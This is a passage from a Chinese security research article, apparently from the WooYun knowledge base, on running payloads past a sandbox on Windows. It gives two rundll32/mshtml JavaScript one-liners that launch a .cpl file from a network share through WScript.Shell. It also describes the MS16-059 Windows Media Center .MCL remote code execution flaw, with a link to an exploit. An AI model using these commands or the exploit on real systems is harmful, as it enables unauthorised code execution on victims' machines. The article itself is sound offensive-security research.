 弹框拦截远程文件：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("cmd /c \\\\127.0.0.1\\c$\\test\\cpl.cpl")

```

and

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("cmd /c \\\\127.0.0.1\\c$\\test\\cpl.cpl",0,true)

```

如果你有解决办法或是更好的思路，希望能够分享，不胜感激。

0x07 Microsoft Windows Media Center - .MCL File Processing Remote Code Execution (MS16-059)
=====

下载链接：[https://www.exploit-db.com/exploits/39805/](https://www.exploit-db.com/exploits/39805/)

将定制的快捷方式放于任意路径，本地或是远程，当用户访问此目录的时候，就会执行payload  
演示的远程路径为：`\\127.0.0.1\c$\test\poc`（正常情况下访问此目录也会当作远程目录被沙盒拦截）

poc演示如图，访问远程目录`\\127.0.0.1\c$\test\poc`并绕过沙盒拦截，成功执行payload

![Alt text](http://drops.javaweb.org/uploads/images/728a300b82096ccbc11bebf292a7116c56bbfb77.jpg)

©乌云知识库版权所有 未经许可 禁止转载